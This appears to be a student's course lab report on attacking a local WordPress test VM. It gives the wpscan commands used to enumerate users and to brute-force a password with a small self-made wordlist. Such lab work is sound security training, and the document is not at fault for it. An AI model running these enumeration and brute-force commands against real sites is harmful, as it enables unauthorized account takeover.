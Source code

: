 ## Secure Software Engineering: Week 7 - WordPress Hacking Report
## Exploits

1. Enumerating users and brute forcing the password with wpscan

For this attack, I was able to enumerate users by typing:

wpscan –-url http://wpdistillery.vm –-enumerate u

![alt text][logo]

[logo]: https://github.com/ke301/facebookhacking/blob/Week-7/enumerateusernames.PNG

Although I could have used the default "admin" to login, I wanted to experiment with this exploit. I created a new user with a password that might be used in a word list. I created a small word list to test wpscan's ability to do the brute forcing. Once I had the user name, I started the brute forcing with the following command:

wpscan –-url http://wpdistillery.vm –-word list /root/Desktop/wordlist.txt –-username newbie –threads 1

![alt text][logo]

[logo]: https://github.com/ke301/facebookhacking/blob/Week-7/enumerateusernames.PNG

